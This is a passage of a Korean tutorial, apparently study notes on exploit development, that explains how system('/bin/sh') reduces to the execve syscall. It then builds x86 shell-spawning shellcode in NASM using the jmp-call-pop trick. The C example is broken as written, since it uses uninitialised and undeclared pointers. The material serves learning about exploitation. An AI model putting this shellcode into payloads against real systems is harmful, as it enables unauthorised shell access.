 ```system("/bin/sh")```에서 system 함수는 내부적으론 execve 함수를 호출, execve 함수는 또 내부적으로 system call을 호출한다.
argv[] : 비어있어도 되나 널로 끝나야 함.

envp[] : 환경 배열은 비어있어도 되나 32비트 널 포인터로 끝나야 함.
*/
```

<br>

C로 짜면 아래와 같다.

<br>

```c
EXECVE(2)

#include <unistd.h>

int main() // main(int argc, char *argv[], char *envp[])
{
    char filename[] = "/bin/sh\x00";
    char **argv, **env;
    
    argv[0] = filename;
    argv[1] = 0;
    
    envp[0] = 0;
    
    execve(filename, argv, envp);
}
```

<br>

이 코드를 어셈블하려면 ```argv 배열```과 ```envp 배열```이 메모리상에 구축돼 있어야 하며 문자열 ```/bin/sh```도 널 바이트로 끝나야 하고 메모리상에도 구축돼야 한다.

어셈블리에서 메모리를 다루는 방법은 C에서 포인터를 사용하는 방법과 비슷한데, 어셈블리 명령어로 ```lea <dest> <src>```가 있다.
: src 오퍼랜드의 유효 주소를 dest 오퍼랜드에 로드한다.

<br>

인텔 문법으로 오퍼랜드는 각괄호로 둘러싸여 포인터로 디레퍼런스될 수 있다.    
: ```ex) mov [ebx+12], eax -> ebx+12가 가리키는 곳에 eax를 쓴다```

위의 코드를 어셈블리어로 작성하면 아래와 같다.

<br>

```nasm
jmp short two
  
one:
; int execve(const char *filename, char *const argv[], char *const envp[])
  pop ebx               ; ebx에 문자열 주소를 저장
  xor eax, eax          ; eax = 0
  mov [ebx+7], al       ; 문자열 끝에 널 바이트(0) 삽입
  mov [ebx+8], ebx      ; ebx 주소 삽입 (4 바이트)
  mov [ebx+12], eax     ; ebx+12가 가리키는 주소에 32비트 널 바이트 삽입
  lea ecx, [ebx+8]      ; argv 포인터에 ebx+8이 가리키는 주소 로드
  lea edx, [ebx+12]     ; envp 포인터에 32비트 널 바이트 로드
  mov al, 11            ; 시스템 콜 값 11 삽입
  int 0x80              ; 시스템 콜 호출
  
two:
  call one
  db '/bin/sh'  ; [ebx] ~ [ebx+6]
```
